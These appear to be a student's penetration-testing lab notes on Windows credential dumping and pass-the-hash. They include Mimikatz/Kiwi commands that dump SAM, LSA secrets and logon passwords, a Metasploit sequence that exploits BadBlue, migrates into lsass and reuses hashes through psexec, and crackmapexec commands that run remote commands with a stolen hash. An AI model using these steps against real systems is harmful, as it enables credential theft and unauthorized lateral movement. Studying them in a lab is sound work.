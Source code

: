 ```msfconsole
#dumps the whole sam databse
lsadump::sam

#dump LSA secrets
lsadump::secrets

#dump logon passwords
sekurlsa::logonpasswords
```

### Passs-the-hash attack
- harvest NTLM hashes and utilise to auth via smb (w/o creacking)
- some tools:
	- PsExec module
	- crackmapexec
	- evil-winrm
- NTLM hash is useful for persistence (ie when the service u used to get Admin goes down/unreliable)

Lab:
```msfconosle
search badblue
use badblue_passthru

#on the compromised session
pgrep lsass
migrate <the lsass ps number>

load kiwi
lsa_dump_sam
#save the hashes somewhr

#to get the LM hash (LM hash shud be same for everyuser) --> psexec need NTLM and LM
hashdump

use exploit/windows/smb/psexec
set lport <a port not being used for other sessions running>
set SMBUser Administrator
set SMBPass <the LM:NTLM hash>

```

Use crackmap instead
```bash
#connect to system
crackmapexec smb <tagret ip> -u Administrator -H "<LM:NTLM hash>"

#execute commands
crackmapexec smb <tagret ip> -u Administrator -H "<LM:NTLM hash>" -x "ipconfig"
```